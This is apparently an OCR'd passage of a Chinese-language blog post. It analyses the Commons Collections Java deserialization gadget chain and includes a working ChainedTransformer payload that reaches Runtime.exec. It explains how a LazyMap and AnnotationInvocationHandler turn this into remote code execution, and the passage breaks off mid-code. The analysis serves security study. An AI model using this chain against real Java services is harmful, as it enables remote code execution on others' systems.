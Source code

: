 ```java
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```

这个的作用是调用输入对象的一个方法, 并且参数可控, 这就非常牛逼了, 将这些结合起来, 如下

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(java.lang.Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[]{}}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{}}),
        new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{new String[]{"/bin/touch", "/dev/shm/rmb122_pwned"}}),
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

这时调用 `chainedTransformer.transform`, 等价于 `java.lang.Runtime.getRuntime().exec(new String[]{"/bin/touch", "/dev/shm/rmb122_pwned"})`,  
将 chainedTransformer 作为 `Lazymap` 的 `factory`, 再 get 一个不存在的 key, 就能达到 RCE 的目的.

问题就是现在缺少一个在 readObject 时 get 的对象, 而且最好是 jre 内置的. 这里就可以看到作者的牛逼之处, 毕竟这些类可不是随便找找就能找到的.  

这里看 `sun.reflect.annotation.AnnotationInvocationHandler` 这个类的 `invoke` 方法,  

```java
// class AnnotationInvocationHandler implements InvocationHandler, Serializable {

AnnotationInvocationHandler(Class<? extends Annotation> paramClass, Map<String, Object> paramMap) {
    Class[] arrayOfClass = paramClass.getInterfaces();
    if (!paramClass.isAnnotation() || arrayOfClass.length != 1 || arrayOfClass[false] != Annotation.class)
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type."); 
    this.type = paramClass;
    this.memberValues = paramMap;
}
  
public Object invoke(Object paramObject, Method paramMethod, Object[] paramArrayOfObject) {
    String str = paramMethod.getName();
    Class[] arrayOfClass = paramMethod.getParameterTypes();
    if (str.equals("equals") && arrayOfClass.length == 1 && arrayOfClass[false] == Object.class)
        return equalsImpl(paramArrayOfObject[0]); 
    if (arrayOfClass.length != 0)
        throw new AssertionError("Too many parameters for an annotation method"); 
    switch (str) {
        case "toString":
            return toStringImpl();
        case "hashCode":
            return Integer.valueOf(hashCodeImpl());
        case "annotationType":
            return this.type;
    }

```
